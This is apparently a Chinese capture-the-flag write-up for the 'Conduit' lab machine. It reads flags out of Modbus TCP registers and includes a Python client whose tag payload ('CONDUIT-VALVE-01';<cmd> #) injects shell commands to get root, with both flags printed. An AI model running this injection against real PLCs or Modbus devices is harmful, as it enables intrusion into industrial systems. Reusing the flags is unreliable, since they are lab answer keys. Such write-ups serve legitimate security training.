



# Conduit

# 链路

```
步骤	   动作
1		502 端口读寄存器 0–511，发现 CERT 区存着 user flag
2		定位命令机制：向 reg0 写非零值即触发，读取 reg10 的标签字符串
3		标签必须 CONDUIT-VALVE 开头，通过则回显 valve <tag> applied 到 reg200
4		用单引号逃逸确认 shell 拼接 → 命令注入 → root
5		通过 reg200 状态缓冲区读回命令输出
```

# nmap

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nmap -p- -A 192.168.31.163
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-09 21:10 +0800
Nmap scan report for Conduit (192.168.31.163)
Host is up (0.00069s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 10.5 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.68 ((Unix))
|_http-title: flow control \xE2\x80\x94 CONDUIT
|_http-server-header: Apache/2.4.68 (Unix)
502/tcp open  modbus  Modbus TCP
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=11/9%OT=22%CT=1%CU=41280%PV=Y%DS=2%DC=T%G=Y%TM=6AF1C68
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%CI=Z%TS=21)SEQ(SP=
OS:103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=22)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=
OS:Z%TS=21)SEQ(SP=105%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=21)SEQ(SP=FD%GCD=1%IS
OS:R=104%TI=Z%CI=Z%II=I%TS=20)OPS(O1=M5B4ST11NW9%O2=M5B4ST11NW9%O3=M5B4NNT1
OS:1NW9%O4=M5B4ST11NW9%O5=M5B4ST11NW9%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE
OS:88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW9%CC=Y%Q=
OS:)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W
OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUC
OS:K=67FA%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=680
OS:4%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=681E%RUD
OS:=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=682A%RUD=G)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=6844%RUD=G)IE(R=Y%
OS:DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.38 ms LAPTOP-L8P806AH.mshome.net (172.22.64.1)
2   0.99 ms Conduit (192.168.31.163)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.74 seconds
```


80服务：


# dirsearch

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ dirsearch -u http://192.168.31.163/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict
/usr/lib/python3/dist-packages/dirsearch/lib/core/fuzzer.py:280: SyntaxWarning: 'break' in a 'finally' block
  break

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/lily2663/reports/http_192.168.31.163/__26-11-09_21-12-37.txt

Target: http://192.168.31.163/

[21:12:37] Starting:
[21:12:38] 403 -  317B  - /.ht_wsr.txt
[21:12:38] 403 -  317B  - /.htaccess.bak1
[21:12:38] 403 -  317B  - /.htaccess.orig
[21:12:38] 403 -  317B  - /.htaccess.sample
[21:12:38] 403 -  317B  - /.htaccess_extra
[21:12:38] 403 -  317B  - /.htaccess_orig
[21:12:38] 403 -  317B  - /.htaccess_sc
[21:12:38] 403 -  317B  - /.htaccessBAK
[21:12:38] 403 -  317B  - /.htaccessOLD
[21:12:38] 403 -  317B  - /.htaccessOLD2
[21:12:38] 403 -  317B  - /.html
[21:12:38] 403 -  317B  - /.htm
[21:12:38] 403 -  317B  - /.htpasswds
[21:12:38] 403 -  317B  - /.htpasswd_test
[21:12:38] 403 -  317B  - /.httr-oauth
[21:12:39] 403 -  317B  - /.htaccess.save
[21:12:42] 301 -  355B  - /assets  ->  http://192.168.31.163/assets/
[21:12:42] 403 -  317B  - /assets/
[21:12:43] 200 -  820B  - /cgi-bin/printenv
[21:12:43] 200 -    1KB - /cgi-bin/test-cgi
[21:12:47] 301 -  357B  - /includes  ->  http://192.168.31.163/includes/
[21:12:47] 403 -  317B  - /includes/
[21:12:52] 403 -  317B  - /server-status
[21:12:52] 403 -  317B  - /server-status/

Task Completed
```

接着扫：/includes

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ dirsearch -u http://192.168.31.163/includes/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict
/usr/lib/python3/dist-packages/dirsearch/lib/core/fuzzer.py:280: SyntaxWarning: 'break' in a 'finally' block
  break

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/lily2663/reports/http_192.168.31.163/_includes__26-11-09_21-13-15.txt

Target: http://192.168.31.163/

[21:13:15] Starting: includes/
[21:13:22] 200 -    0B  - /includes/config.php

Task Completed
```

尝试看看信息：

```bash
 curl -v http://192.168.31.163/includes/
*   Trying 192.168.31.163:80...
* Established connection to 192.168.31.163 (192.168.31.163 port 80) from 172.22.79.147 port 44536
* using HTTP/1.x
> GET /includes/ HTTP/1.1
> Host: 192.168.31.163
> User-Agent: curl/8.21.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 403 Forbidden
< Date: Mon, 09 Nov 2026 13:13:02 GMT
< Server: Apache/2.4.68 (Unix)
< Content-Length: 317
< Content-Type: text/html; charset=iso-8859-1
<
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.68 (Unix) Server at 192.168.31.163 Port 80</address>
</body></html>
* Connection #0 to host 192.168.31.163:80 left intact
```

没用

回头看502端口，是Modbus TCP

```
Modbus TCP 是一种将经典的 Modbus 协议运行在以太网及 TCP/IP 协议之上的工业通信协议。它使可编程逻辑控制器（PLC）、传感器和其他自动化设备能够直接通过标准以太网进行数据交换
```

# mbpoll

使用工具：mbpoll

拆解一下参数：

```bash
参数	值	含义
mbpoll	—	Modbus 主站模拟器工具
-a 1	1	从站地址（Unit ID / Slave ID）= 1，对应你之前解出的 UNIT=1
-t 4	4	数据类型 = 保持寄存器（Holding Register），对应功能码 FC3
-r 1	1	起始地址 = 1，从第 1 个寄存器开始读
-c 5	5	读取数量 = 5，读 5 个连续的 16 位寄存器
192.168.31.163	—	目标 IP
-p 502	502	目标端口 = 502（Modbus TCP 默认端口）
```

于是开始读

```bash
mbpoll -a 1 -t 4 -r 1 -c 5 192.168.31.163 -p 502
mbpoll 1.0-0 - ModBus(R) Master Simulator
Copyright (c) 2015-2023 Pascal JEAN, https://github.com/epsilonrt/mbpoll
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; type 'mbpoll -w' for details.

Protocol configuration: ModBus TCP
Slave configuration...: address = [1]
                        start reference = 1, count = 5
Communication.........: 192.168.31.163, port 502, t/o 1.00 s, poll rate 1000 ms
Data type.............: 16-bit register, output (holding) register table

-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
^C--- 192.168.31.163 poll statistics ---
14 frames transmitted, 14 received, 0 errors, 0.0% frame loss

everything was closed.
Have a nice day !
```

设备正常响应

尝试读寄存器

```bash
 mbpoll -a 1 -t 4 -r 1 -c 100 192.168.31.163 -p 502
mbpoll 1.0-0 - ModBus(R) Master Simulator
Copyright (c) 2015-2023 Pascal JEAN, https://github.com/epsilonrt/mbpoll
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; type 'mbpoll -w' for details.

Protocol configuration: ModBus TCP
Slave configuration...: address = [1]
                        start reference = 1, count = 100
Communication.........: 192.168.31.163, port 502, t/o 1.00 s, poll rate 1000 ms
Data type.............: 16-bit register, output (holding) register table

-- Polling slave 1... Ctrl-C to stop)
[1]:    0
[2]:    0
[3]:    0
[4]:    0
[5]:    0
[6]:    0
[7]:    0
[8]:    0
[9]:    0
[10]:   0
[11]:   17231
[12]:   20036
[13]:   21833
[14]:   21549
[15]:   22081
[16]:   19542
[17]:   17709
[18]:   12337
[19]:   8224
[20]:   8224
[21]:   8224
[22]:   8224
[23]:   8224
[24]:   8224
[25]:   8224
[26]:   8224
[27]:   8224
[28]:   8224
[29]:   8224
[30]:   8224
[31]:   8224
[32]:   8224
[33]:   8224
[34]:   8224
[35]:   8224
[36]:   8224
[37]:   8224
[38]:   8224
[39]:   8224
[40]:   8224
[41]:   8224
[42]:   8224
[43]:   0
[44]:   0
[45]:   0
[46]:   0
[47]:   0
[48]:   0
[49]:   0
[50]:   0
[51]:   0
[52]:   0
[53]:   0
[54]:   0
[55]:   0
[56]:   0
[57]:   0
[58]:   0
[59]:   0
[60]:   0
[61]:   17221
[62]:   21076
[63]:   14950
[64]:   27745
[65]:   26491
[66]:   30067
[67]:   25970
[68]:   11617
[69]:   25651
[70]:   25702
[71]:   13107
[72]:   12593
[73]:   26161
[74]:   14690
[75]:   13361
[76]:   25650
[77]:   26165
[78]:   13362
[79]:   24881
[80]:   12388
[81]:   14642
[82]:   25392
[83]:   25187
[84]:   25981
[85]:   8224
[86]:   8224
[87]:   8224
[88]:   8224
[89]:   8224
[90]:   8224
[91]:   8224
[92]:   8224
[93]:   8224
[94]:   8224
[95]:   8224
[96]:   8224
[97]:   8224
[98]:   8224
[99]:   8224
[100]:  8224
```

发现这些数据非常有意思啊，11~42，61~100不是随机数据，是ASCII字符传

寄存器11-19

```
17231=0x434F "CO"  20036=0x4E44 "ND"  21833=0x5549 "UI"  21549=0x542D "T-"
22081=0x5641 "VA"  19542=0x4C56 "LV"  17709=0x452D "E-"  12337=0x3031 "01"
```

拼起来就是

```
CONDUIT-VALVE-01  
```

即设备名

寄存器61-84

```
61: "CE"  62: "RT"  63: ":f"  64: "la"  65: "g{"
66: "us"  67: "er"  68: "-a"  69: "d3"  70: "df"
71: "33"  72: "11"  73: "f1"  74: "9b"  75: "41"
76: "d2"  77: "f5"  78: "42"  79: "a1"  80: "0d"
81: "92"  82: "c0"  83: "bc"  84: "e}"
```

拼起来就是：

# USERFLAG

```
CERT:flag{user-ad3df3311f19b41d2f542a10d92c0bce}
```

接下来扫扫其他段，看看有没有货

100~200

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ mbpoll -a 1 -t 4 -r 100 -c 100 192.168.31.163 -p 502
mbpoll 1.0-0 - ModBus(R) Master Simulator
Copyright (c) 2015-2023 Pascal JEAN, https://github.com/epsilonrt/mbpoll
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; type 'mbpoll -w' for details.

Protocol configuration: ModBus TCP
Slave configuration...: address = [1]
                        start reference = 100, count = 100
Communication.........: 192.168.31.163, port 502, t/o 1.00 s, poll rate 1000 ms
Data type.............: 16-bit register, output (holding) register table

-- Polling slave 1... Ctrl-C to stop)
[100]:  8224
[101]:  8224
[102]:  8224
[103]:  8224
[104]:  8224
[105]:  0
[106]:  0
[107]:  0
[108]:  0
[109]:  0
[110]:  0
[111]:  0
[112]:  0
[113]:  0
[114]:  0
[115]:  0
[116]:  0
[117]:  0
[118]:  0
[119]:  0
[120]:  0
[121]:  17231
[122]:  20036
[123]:  21833
[124]:  21549
[125]:  20556
[126]:  17199
[127]:  13358
[128]:  12832
[129]:  21838
[130]:  18772
[131]:  15665
[132]:  8224
[133]:  8224
[134]:  8224
[135]:  8224
[136]:  8224
[137]:  8224
[138]:  8224
[139]:  8224
[140]:  8224
[141]:  0
[142]:  0
[143]:  0
[144]:  0
[145]:  0
[146]:  0
[147]:  0
[148]:  0
[149]:  0
[150]:  0
[151]:  0
[152]:  0
[153]:  0
[154]:  0
[155]:  0
[156]:  0
[157]:  0
[158]:  0
[159]:  0
[160]:  0
[161]:  0
[162]:  0
[163]:  0
[164]:  0
[165]:  0
[166]:  0
[167]:  0
[168]:  0
[169]:  0
[170]:  0
[171]:  0
[172]:  0
[173]:  0
[174]:  0
[175]:  0
[176]:  0
[177]:  0
[178]:  0
[179]:  0
[180]:  0
[181]:  0
[182]:  0
[183]:  0
[184]:  0
[185]:  0
[186]:  0
[187]:  0
[188]:  0
[189]:  0
[190]:  0
[191]:  0
[192]:  0
[193]:  0
[194]:  0
[195]:  0
[196]:  0
[197]:  0
[198]:  0
[199]:  0
```

121–131得到：

```
CONDUIT-PLC/4.2 UNIT=1
```

是型号/版本/从站地址

之后做完整实测：

### 寄存器布局

| 寄存器    | 偏移 | 内容                                      |
| --------- | ---- | ----------------------------------------- |
| `0–9`     | 0    | 控制区（`reg0` = 命令触发）               |
| `10–41`   | 20   | 设备名 64 字节 `CONDUIT-VALVE-01`         |
| `42–59`   | 84   | 保留（0）                                 |
| `60–103`  | 120  | **CERT 区** 88 字节 `CERT:flag{user-...}` |
| `104–119` | 208  | 保留（0）                                 |
| `120–139` | 240  | 固件版本 40 字节 `CONDUIT-PLC/4.2 UNIT=1` |
| `140–199` | 280  | 保留（0）                                 |
| `200–263` | 400  | **状态输出缓冲区** 128 字节               |
| `264–511` | 528  | 保留（0）                                 |

### 支持的功能码（如80所言）

| FC                      | 功能         | 状态                 |
| ----------------------- | ------------ | -------------------- |
| 03                      | 读保持寄存器 | ✅ 单次上限 125       |
| 06                      | 写单寄存器   | ✅                    |
| 16                      | 写多寄存器   | ✅ 单次上限 123       |
| 01/02/04/05/15/22/23/43 | 其他         | ❌ `ILLEGAL FUNCTION` |

对于这台靶机：

| 功能码         | 含义                     | 题中的用途                        |
| -------------- | ------------------------ | --------------------------------- |
| `03`           | Read Holding Registers   | 读取设备信息、Flag、状态输出      |
| `06`           | Write Single Register    | 修改 `reg0`，触发命令             |
| `16`（十进制） | Write Multiple Registers | 把标签字符串写进 `reg10` 起始区域 |

由于http服务没可用信息了，只能继续转向MODBUS。

尝试写部分。

```python
import socket
import struct
import sys
import time

HOST = "192.168.31.163"
PORT = 502
UNIT = 1
_tid = [0]


def req(pdu, timeout=10.0):
    _tid[0] = (_tid[0] + 1) & 0xFFFF
    s = socket.create_connection((HOST, PORT), timeout=timeout)
    s.settimeout(timeout)
    try:
        s.sendall(struct.pack(">HHHB", _tid[0], 0, len(pdu) + 1, UNIT) + pdu)
        buf = b""
        while len(buf) < 7:
            c = s.recv(7 - len(buf))
            if not c:
                raise ConnectionError("closed")
            buf += c
        _, _, length, _ = struct.unpack(">HHHB", buf)
        body = b""
        while len(body) < length - 1:
            c = s.recv(length - 1 - len(body))
            if not c:
                raise ConnectionError("closed")
            body += c
        return body
    finally:
        s.close()


def wr(addr, vals):
    if len(vals) == 1:
        pdu = struct.pack(">BHH", 6, addr, vals[0] & 0xFFFF)
    else:
        pdu = struct.pack(">BHHB", 16, addr, len(vals), len(vals) * 2)
        pdu += struct.pack(">" + "H" * len(vals), *[v & 0xFFFF for v in vals])
    r = req(pdu)
    if r[0] & 0x80:
        raise IOError("EXC%d" % r[1])


def rd(addr, count):
    r = req(struct.pack(">BHH", 3, addr, count))
    if r[0] & 0x80:
        raise IOError("EXC%d" % r[1])
    n = r[1]
    return list(struct.unpack(">" + "H" * (n // 2), r[2:2 + n]))


def pack(data, nregs):
    b = data.ljust(nregs * 2, b"\x00")[:nregs * 2]
    return [(b[i] << 8) | b[i + 1] for i in range(0, nregs * 2, 2)]


def unpack(vals):
    return "".join(chr(x) for v in vals for x in (v >> 8, v & 0xFF))


def send(payload, clear=True, restore=True):
    payload = payload[:64]
    if clear:
        wr(200, [0] * 64)
    wr(10, pack(payload, 32))
    wr(0, [0])
    time.sleep(0.08)
    wr(0, [1])
    time.sleep(0.8)
    out = ""
    for _ in range(14):
        raw = unpack(rd(200, 64)).split("\x00")[0]
        if raw.strip():
            out = raw
            break
        time.sleep(0.25)
    if restore:
        wr(10, pack(b"CONDUIT-VALVE-01".ljust(64, b" "), 32))
        wr(200, [0x2020] * 64)
        wr(0, [0])
    return out


def main():
    args = sys.argv[1:]
    if not args:
        sys.exit("usage: %s <payload>" % sys.argv[0])
    if "-n" in args:
        clear = False
        args.remove("-n")
    else:
        clear = True
    payload = " ".join(args).encode("latin-1", "replace")
    r = send(payload, clear=clear)
    print(repr(r))
    if r:
        sys.stdout.write(r + "\n")


main()

```


加上CONDUIT-VALVE



尝试闭合：


/bin/sh!!!!，尝试拼接命令


命令执行，拿flag



这里发现标签内容那个本身包含单引号，于是尝试闭合原本包裹标签的单引号，然后使用;来分隔开shell命令，然后开始注释掉后面的内容。



reg200–263只有 64 个寄存器，即 128 字节。

它并不是无限容量的终端。输出太长时可能被截断，写入和读取之间也可能存在时序问题。

所以脚本需要等待和轮询，应对这个问题。

# ROOTFLAG

```
flag{root-f805220881becdca0278dae6634df8d4}
```


最小核心：

```python
def run(cmd):
    tag = ("CONDUIT-VALVE-01';%s #" % cmd).encode()      # 必须 CONDUIT-VALVE 开头
    p = tag.ljust(64, b"\x00")[:64]
    wr(200, [0]*64)                                       # 清状态区
    wr(10, [(p[i]<<8)|p[i+1] for i in range(0,64,2)])     # 写标签
    wr(0, [0]); wr(0, [1])                                # 触发
    return read(200, 64)                                  # 回显
```

复测：

看了一下#的处理

在 Shell 中，#并不是无条件的注释符。只有当它出现在一个新单词的开头，且不处于引号或转义保护状态时，才会开始注释。

在shell中，id#被直接当做完整命令名称。

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ id#
Command 'id#' not found, did you mean:
  command 'idt' from deb ncl-ncarg
  command 'id' from deb coreutils
  command 'id3' from deb id3
  command 'idn' from deb idn
Try: sudo apt install <deb name>

┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ id #
uid=1000(lily2663) gid=1000(lily2663) groups=1000(lily2663),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users)

┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ id
uid=1000(lily2663) gid=1000(lily2663) groups=1000(lily2663),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users)

┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ id;#
uid=1000(lily2663) gid=1000(lily2663) groups=1000(lily2663),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users)
```

